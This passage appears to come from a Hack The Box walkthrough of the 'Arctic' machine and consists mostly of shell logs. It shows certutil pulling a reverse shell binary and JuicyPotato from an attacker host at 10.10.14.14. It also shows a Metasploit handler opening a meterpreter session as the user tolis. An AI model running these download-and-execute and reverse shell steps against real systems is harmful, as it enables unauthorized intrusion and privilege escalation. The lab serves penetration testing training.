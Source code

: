 Download the binary and catch the reverse shell:

```powershell
PS C:\ColdFusion8\runtime\bin> certutil -urlcache -f http://10.10.14.14/rs.exe rs.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\ColdFusion8\runtime\bin> .\rs.exe
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ sudo msfconsole -q                                                       
[sudo] password for kali: 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.14
lhost => 10.10.14.14
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:443 
[*] Sending stage (175174 bytes) to 10.10.10.11
[*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.11:49687) at 2021-04-21 17:54:27 -0400

meterpreter > getuid
Server username: ARCTIC\tolis
```

Download all the necessary files:

```powershell
C:\Users\tolis\Downloads>certutil -urlcache -f http://10.10.14.14/test_clsid.bat test_clsid.bat 
certutil -urlcache -f http://10.10.14.14/test_clsid.bat test_clsid.bat
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\Users\tolis\Downloads

23/04/2021  09:09     <DIR>          .
23/04/2021  09:09     <DIR>          ..
23/04/2021  09:09                285 test_clsid.bat
               1 File(s)            285 bytes
               2 Dir(s)  33.183.264.768 bytes free

C:\Users\tolis\Downloads>certutil -urlcache -f http://10.10.14.14/JP_x64.exe juicypotato.exe
certutil -urlcache -f http://10.10.14.14/JP_x64.exe juicypotato.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```
